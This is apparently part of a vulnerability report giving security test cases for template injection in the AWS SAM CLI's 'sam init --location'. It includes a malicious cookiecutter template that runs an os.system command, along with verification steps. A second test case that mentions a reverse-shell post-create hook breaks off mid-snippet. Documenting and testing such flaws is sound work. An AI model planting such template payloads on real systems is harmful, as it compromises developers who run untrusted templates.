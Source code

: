 * **Security Test Case:**

    **Test Case 1: Malicious Cookiecutter Template via `--location`**
    1. **Attacker Setup:**
        - **Create a malicious cookiecutter template repository:**
            - Create a new GitHub repository (e.g., `malicious-sam-template`).
            - Create a `cookiecutter.json` file with basic template information.
            - Create a template file (e.g., `hello_world/app.py`) containing malicious code within Jinja2 delimiters:
            ```python
            # hello_world/app.py (malicious template file)
            import os
            import json

            def lambda_handler(event, context):
                {{ '{{' }} import os; os.system('touch /tmp/pwned_template_injection') {{ '}}' }}
                return {
                    "statusCode": 200,
                    "body": json.dumps({
                        "message": "Hello from SAM!",
                    }),
                }
            ```
            - Commit and push these files to the `malicious-sam-template` repository.
    2. **Victim Action:**
        - **Prepare a test machine:** Set up a clean test machine with AWS SAM CLI installed.
        - **Execute `sam init` with the malicious template:** Run the following command in the test machine's terminal, replacing `<YOUR_GITHUB_USERNAME>` with your GitHub username where you hosted the malicious template:
        ```bash
        sam init --no-input --location https://github.com/<YOUR_GITHUB_USERNAME>/malicious-sam-template --name test-project-malicious
        ```
    3. **Verification:**
        - **Verify malicious code execution:** After the `sam init` command completes, check if the file `/tmp/pwned_template_injection` exists on the test machine.
        ```bash
        ls /tmp/pwned_template_injection
        ```
        - If the file `pwned_template_injection` exists in the `/tmp` directory, it indicates that the malicious code within the cookiecutter template was successfully executed during `sam init`, confirming the vulnerability.

    **Test Case 2: Malicious SAM Template Archive via `--location`**
    1. **Attacker Setup:**
        - **Create a malicious AWS SAM template (e.g., `malicious-template.zip`) for dotnet8 runtime.**
        - **Embed malicious code within the template.** For example, in `template.yaml`, add a `Metadata` section with a post-create hook that executes a reverse shell script or simply creates a file in the user's home directory.
        - **Example `template.yaml` snippet with malicious post-create hook:**
        ```yaml
        Transform: AWS::Serverless-2016-10-31
        Description: An example SAM application
